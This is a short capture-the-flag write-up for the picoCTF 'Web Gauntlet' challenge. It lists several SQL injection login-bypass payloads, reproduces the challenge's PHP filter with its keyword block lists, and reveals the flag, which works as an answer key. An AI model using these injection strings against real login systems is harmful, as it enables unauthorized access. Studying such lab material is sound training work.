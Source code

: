 ## Web Gauntlet
AUTHOR: MADSTACKS

If the flag is not displayed after completing this challenge, try clearing your cookies. Cookies set by other challenges may prevent the flag from displaying properly.

Description
Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:54319/ http://jupiter.challenges.picoctf.org:54319/filter.php

1) this all about sql injection 

2) we tried all these and got the flag

 
     i) admin;--
  
     ii) admin'/*
 
     iii) admin';
  
     iv)ad'||'min';


3) now checking the php file

<code>
  
<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}
?>
 </body>
 </code>
